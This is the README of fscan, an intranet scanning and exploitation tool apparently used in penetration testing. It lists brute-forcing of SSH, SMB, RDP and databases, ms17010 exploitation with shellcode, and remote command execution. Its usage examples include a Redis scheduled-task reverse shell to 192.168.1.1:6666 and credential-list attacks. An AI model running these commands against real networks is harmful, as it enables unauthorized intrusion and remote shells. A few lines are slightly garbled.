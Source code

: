 # fscan

# 1. Introduction
An intranet comprehensive scanning tool, which is convenient for automatic and omnidirectional missed scanning.
It supports host survival detection, port scanning, explosion of common services, ms17010, Redis batch public key writing, planned task rebound shell, reading win network card information, web fingerprint identification, web vulnerability scanning, netbios detection, domain control identification and other functions.

# 2. Functions
1.Information collection:
* Survival detection(icmp)
* Port scanning

2.Blasting:
* Various service blasting(ssh、smb、rdp, etc.)
* Database password blasting(mysql、mssql、redis、psql、oracle, etc.)  

3.System information, vulnerability scanning:  
* Netbios detection, domain control identification  
* Collect NIC information
* High Risk Vulnerability Scanning(ms17010, etc.)  

4.Web detection:
* Webtitle detection
* Web fingerprinting (cms, oa framework, etc.)
* Web vulnerability scanning (weblogic, st2, etc., also supports xray poc)

5.Exploit:
* Write redis public key and scheduled tasks  
* Excute ssh command  
* Use the ms17017 vulnerability (implanted shellcode), such as adding users, etc. 

6.Others:
* Save ouput result

# 3. Instructions
Getting Started
``` 
fscan.exe -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/16
```

Advanced
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(Skip survival detection, do not save output result, skip web poc scanning)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (Redis write public key)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (Redis scheduled task rebound shell)
fscan.exe -h 192.168.1.1/24 -c whoami (Execute ssh command)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (Specify ssh module and port)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (Load the specified file and password to blast
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (Specify the path to save the scan results, which is saved in the current path by default) 
fscan.exe -h 192.168.1.1/8  192.x.x.1 and 192.x.x.254 of segment A, convenient for quickly viewing network segment information )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (Smb password crash)
fscan.exe -h 192.168.1.1/24 -m ms17010 (Specified ms17010 module)
fscan.exe -hf ip.txt  (Import target from file)
fscan.exe -u http://baidu.com -proxy 8080 (Scan a url and set http proxy http://127.0.0.1:8080)
```